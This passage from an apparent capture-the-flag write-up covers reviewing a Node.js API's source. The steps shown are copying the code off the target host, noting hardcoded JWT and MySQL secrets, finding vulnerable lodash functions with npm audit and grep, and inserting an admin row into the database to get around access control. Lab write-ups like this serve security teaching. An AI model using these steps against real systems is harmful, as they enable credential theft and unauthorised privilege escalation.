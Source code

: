 Let's download the API source and do some code review.

```bash
# bryan@red_team (bash)
ssh victor@$rhost tar -czf pollution_api.tgz pollution_api
scp victor@$rhost:pollution_api.tgz .
tar -xzf ./pollution_api.tgz
```
{:.nolineno}

Just looking around, there are a couple secrets we find in the source code that could prove useful later:
- JWT HS256 Key `JWT_COLLECT_124_SECRET_KEY` in `functions/jwt.js`{:.filepath}
- MySQL Credentials `webapp_user:Str0ngP4ssw0rdB*12@1` in `models/db.js`{:.filepath}

Now we'll check for vulnerabilities in the installed packages using the Node Package Manager (NPM).

```bash
# bryan@red_team (bash)
cd pollution_api
npm ls # list packages
npm audit # show vulnerabilities
```
{:.nolineno}

The lodash installation has a whole bunch of vulnerabilities that could help us.

```bash
# bryan@red_team (bash)
npm audit --json > _audit.json
jq '.vulnerabilities.lodash' _audit.json > _audit_lodash.json
jq '.via[]|[.title,.url]' _audit_lodash.json # proto pollution?, cmd injection?
```
{:.nolineno}

Looking through the reference GitHub advisories for each relevant vulnerability, we create a list of vulnerable functions to search the source code for.

```bash
# bryan@red_team (bash)
funcs=("defaultsDeep" "merge" "zipObjectDeep" "template")
for f in $funcs
  do find ./ -type f -iname '*.js' -not -path './node_modules/*' -exec grep $f {} +
done
```
{:.nolineno}

The **messages_send** controller from `controllers/Messages_send.js`{:.filepath} seems to use the vulnerable _merge_ function from the outdated lodash installation. This controller is assigned to the **/admin/messages/send** endpoint in `routes/admin.js`{:.filepath}, which is only accessible to clients registered as an admin. We can bypass these limitations by manually adding an admin user in the MySQL database using the credentials we found in `models/db.js`{:.filepath}.

```bash
# victor@pollution (bash)
mysql -u webapp_user -p'Str0ngP4ssw0rdB*12@1' -D pollution_api \
  -e "INSERT INTO users VALUES (1337, 'user', 'pass', 'admin', 0, 0);"
```
{:.nolineno}
